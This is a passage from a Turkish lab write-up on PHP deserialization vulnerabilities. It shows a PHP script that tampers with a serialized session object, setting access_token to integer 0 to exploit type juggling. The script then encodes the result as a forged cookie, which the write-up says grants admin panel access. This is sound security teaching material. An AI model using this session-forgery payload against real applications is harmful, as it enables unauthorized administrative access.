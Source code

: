 Bu noktada şu kaynak da faydalı olacaktır: **[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)**

Burada doğru ilerleyebilmek için kendi sınıfımızı yazarak uygulamada bulunan session bilgisini serialize etmemiz gerekmektedir. Daha sonra burada elde ettiğimiz sonucu kullanabiliriz. 

```php
Modifying-serialized-data-types.php dosyası:
<?php

class User{
    var $username;
    var $access_token;
}

$payload = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"nx19tbfamwu23nmwavajsa1m796exwqm";}';

$user = unserialize($payload);
$user->access_token = 0;

echo serialize($user);
```

```php
php Modifying-serialized-data-types.php
```

Output:

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}
```

Hatta burada isterseek url encoding ve base64 encoding işlemlerini de yapabiliriz. Kodumuza bu kısmı ekliyoruz.

```php
echo urlencode(
    base64_encode(serialize($user))
);
```

Output:

```php
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtpOjA7fQ%3D%3D
```

Bu işlemi burpsuite tarafına taşıdığımızda artık elde ettiğimiz yeni session bilgisi ile ilerleyince admin panelinin geldiğini görebilmekteyiz…

![Untitled](0x0C-Deserialization-Zafiyetlerini-Anlamak-Episode-78d04d91baaa44d0959227e5c55cbc59/Untitled-13.png)
